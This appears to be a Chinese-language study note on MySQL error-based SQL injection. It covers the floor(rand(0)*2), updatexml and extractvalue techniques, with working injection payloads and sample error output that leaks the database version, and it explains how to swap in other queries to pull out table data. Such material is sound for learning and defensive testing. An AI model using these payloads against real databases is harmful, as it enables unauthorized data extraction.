 # ==SQL注入 - 报错注入==

**报错注入原理**

==利用Mysql数据库报错，导致输出查询数据信息。==

## floor（rand（0）*2）报错

```sql
select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2));
报错输出：
数据库版本信息
ERROR 1062 （23000）：Duplicate entry '5.5.531' for 'group_key'

payload:
and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))xfrom information_schema.tables group by x )a)
```

原理：在进行group by进行分组过程中，会建立一个虚拟表，通过concat(version(),floor(rand(0)*2))我们可以重复在虚拟表中创建相关的文件和值

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904110312023.png" alt="image-20230904110312023" style="zoom:200%;" />







## updatexml报错

```sql
UPDATEXML (XML_document,XPath_string,new_value);
第一个参数：XML_document是string格式，为XML文档对象的名称
第二个参数：XPath_string(XPath格式的字符串)，如果不了解XPath的语法，可以上网查询教程
第三个参数：new_value,String格式，替换查找到的符合条件的数据

也就是说，在XML_document这个文档中，找到XPath_string这个数据，将其替换为new_value

当第二个参数不符合Xpath语法，那么报错

mysql> select * from admin where id = 1 and updatexml(1,concat(0x7e,version(),0x7e),1);
ERROR 1105 (HY000):XPATH syntax error: '~5.5.53~'
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904124630263.png" alt="image-20230904124630263" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904124816144.png" alt="image-20230904124816144" style="zoom:200%;" />

因此，如果我们想要知道数据库中的数据表中的具体字段和字段中的数据，我们呢只需要修改version(),将其替换为具体的sql语句就好







## extractvalue报错

```sql
ectractvlaue(目标xml文档，xml路劲)

第二个参数 xml 中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/...这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法内容就是我们想要查询的内容

mysql> select * from admin where id = 1 and extractvalue(1,concat(0x7e,(version()),0x7e));

ERROR 1105 (HY000):XPATHsyntax error:'~5.5.53~'
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904130132814.png" alt="image-20230904130132814" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904130258828.png" alt="image-20230904130258828" style="zoom:200%;" />







## 其他类型报错注入公式：（Mysql高版本不适用）

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904130651461.png" alt="image-20230904130651461" style="zoom:200%;" />



**小结：1.报错注入原理 和 利用数据库错误 直接输出信息**